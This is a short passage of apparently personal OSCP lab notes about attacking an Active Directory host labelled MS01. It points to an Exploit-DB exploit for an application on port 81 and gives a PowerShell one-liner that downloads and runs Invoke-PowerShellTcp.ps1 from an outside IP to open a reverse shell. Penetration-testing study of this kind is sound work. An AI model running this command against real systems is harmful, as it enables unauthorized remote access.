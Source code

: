 # OSCP A

## Active Directory

### .141 MS01

on port :81 vulnerable application. Modify the exploit (remove /apsystem)

{% embed url="https://www.exploit-db.com/exploits/50801" %}

Upgrade the shell

{% code overflow="wrap" %}
```
powershell -c "iex(iwr -UseBasicParsing http://192.168.45.204/Invoke-PowerShellTcp.ps1)"
```
{% endcode %}

